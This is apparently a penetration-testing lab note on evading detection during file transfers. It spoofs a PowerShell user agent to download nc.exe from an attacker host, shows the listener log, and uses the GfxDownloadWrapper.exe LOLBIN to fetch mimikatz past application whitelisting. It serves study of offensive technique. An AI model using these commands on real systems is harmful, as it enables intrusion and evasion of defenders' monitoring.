 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Evading Detection
## Changing User-Agent
In case diligent administrators or defenders have blacklisted any of these User Agents, Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

````powershell 
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
````

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
 ````

````bash
Ryohei@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
````

## LOLBAS / GTFOBins

[LOLBAS](https://lolbas-project.github.io/)

[GTFOBins](https://gtfobins.github.io/)

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

````powershell  
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
````
Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the LOLBAS project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the GTFOBins project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.
